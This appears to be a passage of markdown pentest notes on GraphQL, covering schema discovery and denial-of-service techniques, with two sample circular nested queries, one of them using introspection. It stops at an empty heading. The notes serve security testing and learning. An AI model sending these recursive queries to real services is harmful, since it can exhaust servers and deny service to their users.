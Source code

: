 
### using Suggestions
this tool [Clairvoyance](https://github.com/nikitastupin/clairvoyance) can get the scheme info using suggestions 

### Discovering Exposed GraphQL Structures in JS


# Attack GraphQL
## DoS
- The client sends a single request containing one complex query.
- The client sends a single request containing multiple complex queries.
- The client sends multiple parallel requests, each containing a single complex query.
- The client sends multiple parallel requests, each containing multiple complex queries.
- The client requests a large number of objects from the server.
- [check automation scripts](https://github.com/dolevf/Black-Hat-GraphQL/tree/master/ch05)

#### Circular Query 

```graphql
 query {
  pastes {
    owner {
      pastes {
        owner {
          name
        }
      }
    }
  }
 }

## Circular in Introspection 

 query {
  __schema {
    types {
      fields {
        type {
          fields {
            type {
              fields {
                name
              }
            }
          }
        }
      }
    }
  }
```
#### Circular Fragment 
